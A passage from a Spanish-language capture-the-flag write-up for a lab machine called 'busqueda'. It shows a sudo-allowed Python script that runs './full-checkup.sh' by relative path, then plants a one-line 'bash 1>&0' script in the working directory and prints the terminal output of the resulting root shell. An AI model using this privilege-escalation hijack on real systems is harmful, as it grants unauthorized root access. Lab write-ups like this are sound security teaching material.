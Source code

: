 ```python
    
    elif action == 'docker-ps':
        try:
            arg_list = ['docker', 'ps']
            print(run_command(arg_list)) 
        
        except:
            print('Something went wrong')
            exit(1)

    elif action == 'full-checkup':
        try:
            arg_list = ['./full-checkup.sh']
            print(run_command(arg_list))
            print('[+] Done!')
        except:
            print('Something went wrong')
            exit(1)
            

if __name__ == '__main__':

    try:
        action = sys.argv[1]
        if action in actions:
            process_action(action)
        else:
            raise IndexError

    except IndexError:
        print(f'Usage: {sys.argv[0]} <action> (arg1) (arg2)')
        print('')
        print('     docker-ps     : List running docker containers')
        print('     docker-inspect : Inpect a certain docker container')
        print('     full-checkup  : Run a full system checkup')
        print('')
        exit(1)
```

En la acción full-checkup intenta ejecutar un script llamado `full-checkup.sh` en la ruta donde se le llame, podemos abusar de esto simplemente creando dicho script en nuestro directorio con el siguiente contenido

```bash
bash 1>&0
```
{: file="full-checkup.sh"}

Creando el fichero y ejecutando la acción, pues

```bash
svc@busqueda:~/.local$ sudo -u root /usr/bin/python3 /opt/scripts/system-checkup.py full-checkup
ls -la
total 24
drwxrwxr-x 5 svc svc 4096 Aug 14 21:32 .
drwxr-x--- 7 svc svc 4096 Aug 14 18:09 ..
drwxrwxr-x 2 svc svc 4096 Jun 15  2022 bin
-rwxr-xr-x 1 svc svc   24 Aug 14 21:31 full-checkup.sh
drwxrwxr-x 3 svc svc 4096 Mar  1 10:46 lib
drwx------ 3 svc svc 4096 Jun 15  2022 share
script /dev/null -c bash
Script started, output log file is '/dev/null'.
root@busqueda:/home/svc/.local#
```
